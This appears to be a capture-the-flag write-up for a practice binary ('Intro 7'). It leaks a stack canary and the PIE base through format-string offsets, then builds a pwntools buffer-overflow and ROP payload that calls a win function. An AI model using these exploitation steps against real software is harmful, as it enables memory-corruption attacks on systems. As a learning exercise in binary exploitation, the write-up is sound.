



# Intro 7

Intro 7

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

Okay new output from checksec "Stack: Canary found"

At the bottom of the vuln function we can see something new:



This will check if the stack canary is the correct value which would prevent us from doing a buffer overflow.

We can see this in action by sending 25 'A's to the gets() function



If we look inside GDB we can see the CMP fails and prints the "stack smashing detected error"

okay, so we need to leak the canary and include it after our first 24 'A's.

https://ir0nstone.gitbook.io/notes/types/stack/canaries 

Using this as reference the stack canary always ends in "00" 

So I'll use the same fuzz script as before and offset 13 seems to always end in 00

```Offset 13 has b'0xdd84f1f88b108100'```

You can confirm this is the correct address using GDB:

```
pwndbg> canary
AT_RANDOM = 0x7ffe34390cd9 # points to (not masked) global canary value
Canary    = 0x41a14b2fc491d200 (may be incorrect on != glibc)
```

The canary command gives us "0x41a14b2fc491d200" checking this with the 13th leak. We see they are a match

To confirm this is the stack canary I sent 24 'A's that leak and another 24 'A's 

payload = 'A' * 24 + p64(leak) + 'A' * 24

Using this as the payload we dont get the stack smashing error. This is this the correct value.


Now, looking at the leaks from the fuzz.py script i'll look for stack address like from Intro 6.

"%10$p" is giving the same "\_start" from intro6.

```
pwndbg> x/s 0x555555555100
0x555555555100 <_start>:
```

This time the offset is 0x1100

```
❯ objdump -D pwnme|grep start
    1008:	48 8b 05 d9 2f 00 00 	mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__>
0000000000001100 <_start>:
    1128:	ff 15 b2 2e 00 00    	call   *0x2eb2(%rip)        # 3fe0 <__libc_start_main@GLIBC_2.2.5>
0000000000004000 <__data_start>:
```

So %10$p (the leak) - 0x1100 will give the base address.

The final payload looks like this:

```
payload = b'A' * 24
payload += p64(canary)
payload += b"A" * 8
rop.raw(rop.ret)
rop.win(0xdeadbeefdeadbeef)
rop.win()
payload += rop.chain()
io.sendline(payload)
```



